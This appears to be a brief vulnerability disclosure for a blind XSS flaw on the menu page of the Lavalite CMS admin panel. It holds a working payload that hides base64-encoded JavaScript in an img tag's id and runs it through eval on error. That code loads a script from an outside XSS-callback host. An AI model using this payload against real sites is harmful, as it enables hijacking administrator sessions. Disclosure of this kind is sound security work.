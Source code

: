 # Description
Blind XSS triggered at menu page of lavalite CMS admin account.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC
* go to menu page drop xss payload
* Booyah!!! XSS triggered.
# PermaLinks
[drive link](https://drive.google.com/drive/folders/1-GX4zH20qGABhCjTxBLLalG3MHnPrTQI?usp=sharing)
